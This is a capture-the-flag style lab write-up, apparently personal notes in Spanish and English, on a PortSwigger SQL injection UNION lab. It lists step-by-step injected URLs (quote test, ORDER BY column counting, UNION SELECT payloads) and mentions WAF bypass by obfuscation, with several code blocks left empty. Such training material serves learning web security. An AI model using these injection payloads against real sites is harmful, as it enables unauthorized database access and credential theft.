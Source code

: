 # `Lab`: SQL injection UNION attack, retrieving data from other tables

- [Lab: SQL injection UNION attack, retrieving data from other tables](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables)

## Descripción:

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you need to combine some of the techniques you learned in previous labs.

The database contains a different table called `users`, with columns called `username` and `password`.

To solve the lab, perform a **SQL injection UNION attack** that retrieves all usernames and passwords, and use the information to log in as the `administrator` user. 

---

### Explicación:

- En este laboratorio ya se acerca a un escenario "real" donde a partir del SQLi debo exfiltrar datos que contengan un `username` y `password`
- Para hacer esto, en realidad ya debo **enumerar** la base de datos o `database schema`, incluyendo `data bases`, `tables`, `columns` y `data`.
- Aquí es donde ya se pueden comenzar a hacer `DIOS - Dump In One Shot` y ese tipo de travesuras.
- A travez de `querys SQL` es como debo manipular las consultas para arrojar la información que yo necesite para enumerar la `database`.
- En caso que haya `WAF - Web Application Firewall` las querys se deben manipular con diferentes tecnicas de `ofuscation`, `encoding`, etc. para lograr hacer `bypass` de ese `WAF`. _(En este laboratiorio no hay WAF)_ 

#### Query original:

````sql

````

#### Query inyectada:

````sql

````

---

### Explicación con Lab:

1.

````sql

````
````py

````



## Solución:

````py
https://0a1a002f037876e380d71c89001a0081.web-security-academy.net/filter?category=Accessories

https://0a1a002f037876e380d71c89001a0081.web-security-academy.net/filter?category=Accessories' 

https://0a1a002f037876e380d71c89001a0081.web-security-academy.net/filter?category=Accessories' -- -

https://0a1a002f037876e380d71c89001a0081.web-security-academy.net/filter?category=Accessories' ORDER BY 2 -- -

https://0a1a002f037876e380d71c89001a0081.web-security-academy.net/filter?category=Accessories' UNION SELECT 1,2 -- -

# Working!!! Invisible
https://0a1a002f037876e380d71c89001a0081.web-security-academy.net/filter?category=Accessories' UNION SELECT null,null -- -
# Working!!! Visible
https://0a1a002f037876e380d71c89001a0081.web-security-academy.net/filter?category=Accessories' UNION SELECT '1','2' -- -




````










